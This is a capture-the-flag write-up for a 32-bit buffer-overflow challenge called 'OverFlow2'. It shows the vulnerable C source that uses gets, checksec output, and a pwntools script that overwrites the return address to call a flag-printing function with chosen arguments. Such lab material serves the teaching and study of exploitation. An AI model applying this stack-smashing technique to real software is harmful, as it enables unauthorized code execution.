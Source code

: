 # OverFlow2

## Checksec

```sh
❯ checksec vuln
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
```

## Source Analysis

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

## Vulnerability

The vulnerability in this code is a classic buffer overflow. The `gets` function is used to read user input into the `buf` array without any bounds checking. This allows an attacker to overflow the buffer and overwrite adjacent memory, including the return address of the function. If the attacker can control the input, they can redirect execution flow to the `flag` function, which prints the flag.

## Exploit

To be note we need to overwrite the parameters of the `flag` function, which are `arg1` and `arg2`. The values we need to pass are `0xDEADBEEF` and `0xC0DED00D`.

Note that we do not use `call` to call the `flag` function, so the return address of `flag` is needed to be overwrited by us.

```python
#!/usr/bin/python3
from pwn import *

context.log_level = "debug"

context.arch = "i386"
r = process("./vuln")
# r = remote("124.16.75.117", 51008)

buf_len = 180
flag_addr = 0x080491F6
dead_beef = 0xDEADBEEF
code_dood = 0xC0DED00D
exit_addr = 0x08049241
gdb.attach(r, "b *0x080492c4")
r.sendlineafter(
    "Please enter your string: ",
    b"a" * buf_len
    + b"b" * 4  # ebx
    + b"c" * 4  # ebp
    + p32(flag_addr)
    + p32(exit_addr)  # flag_ret
    + p32(dead_beef)
    + p32(code_dood),
)
r.interactive()
```
